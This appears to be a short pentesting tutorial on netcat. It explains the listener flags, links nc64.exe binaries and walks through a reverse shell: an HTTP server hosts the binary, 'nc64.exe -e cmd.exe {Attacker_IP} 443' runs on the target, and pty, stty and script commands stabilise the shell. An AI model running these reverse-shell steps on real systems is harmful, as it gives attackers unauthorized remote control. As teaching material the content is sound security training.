


netcat
nc -h
nc -lvnp 8000
l : Listening mode.
v : Verbose mode. Displays status messages in more detail.
n : Numeric-only IP address. No hostname resolution. DNS is not being used.
p : Port. Use to specify a particular port for listening.
netcat (often abbreviated to nc) is a computer networking utility for reading from and
writing to network connections using TCP or UDP. The command is designed to be a
dependable back-end that can be used directly or easily driven by other programs and
scripts. At the same time, it is a feature-rich network debugging and investigation
tool, since it can produce almost any kind of connection its user could need and has
several built-in capabilities. Its list of features includes port scanning,
transferring files, and port listening: as with any server,
it can be used as a
backdoor.To use as Backdoor :
https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------https://github.com/CybeXRay/nc.exeWe will attempt to get a stable reverse shell. We will upload the nc64.exe binary to the target
machine and execute an interactive cmd.exe process on our listening port.
We navigate to the folder and then start the simple HTTP server, then the netcat listener in a different tab by
using the following commands:
sudo python3 -m http.server 80 ---------------- Web server for the Target machine to download the nc64.exe
sudo nc -lvnp 443 ---------------- Our NC listner in the Attacker machine
Running the Backdoor in Target machine:
.\nc64.exe -e cmd.exe {Attacker_IP} 443 ------------As we are listening in 443
Stabilizing the shell:Note: To get a proper working shell out of default shell we can use:
We got a reverse shell! In order to have a functional shell though we can issue the following:
These method is used inside
netcat to get more stable and working shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can
upgrade the terminal shell using the following command.
script /dev/null -c bash